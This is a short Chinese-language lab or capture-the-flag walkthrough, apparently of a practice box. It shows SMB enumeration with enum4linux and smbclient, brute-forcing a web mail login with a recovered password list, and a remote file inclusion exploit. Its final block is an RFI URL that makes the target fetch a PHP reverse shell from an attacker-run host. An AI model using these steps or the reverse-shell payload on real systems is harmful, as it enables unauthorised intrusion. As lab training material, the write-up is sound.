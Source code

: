 没什么头绪

## smb枚举
这里我们用enum4linux来操作一手

```
enum4linux -a ip 全扫描
```
  能发现这里还有匿名共享anonymous  
![image.png](https://s2.loli.net/2025/04/19/qEyRGmCKze5XY24.png)

![image.png](https://s2.loli.net/2025/04/19/3gSJNYWcMIrtQRj.png)

### smbclient连接
这里用smbclient连接匿名用户 发现有个文件 

```
get 文件
```

发现就一句话 需要员工改密码

在另外个文件中发现了疑似密码本的东西 试试能做密码本吗
 
## bp爆破 成功进入

![image.png](https://s2.loli.net/2025/04/19/XcvhICuBTD8Z6n5.png)

获得mile用户的密码

用刚刚的密码本爆破成功 进入

在第一封邮件中找到smb服务的登录密码

## 登录smb

```
 smbclient //10.10.36.16/milesdyson -U milesdyson
 -U指定用户登录
```

在其中找到了重要文件 里面有我们需要的东西 一个隐藏目录 用这个目录又进行字典爆破 发现一个cms登录界面

## 远程文件包含漏洞

searchsploit能搜到这个漏洞

```
http://10.10.36.16/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.17.40.203:8000/php-reverse-shell.php

# /alerts/alertConfigField.php?urlConfig=http://10.17.40.203:8000/php-reverse-shell.php 是rfi的路径
``` 
